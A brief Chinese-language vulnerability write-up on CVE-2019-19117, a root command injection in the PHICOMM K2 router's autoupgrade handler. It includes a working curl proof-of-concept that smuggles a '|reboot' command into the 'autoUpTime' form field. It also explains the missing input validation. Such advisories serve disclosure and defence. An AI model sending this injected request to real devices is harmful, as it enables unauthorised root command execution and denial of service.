

# （CVE-2019-19117）PHICOMM 远程代码执行

## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx' 
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。


我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。



然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。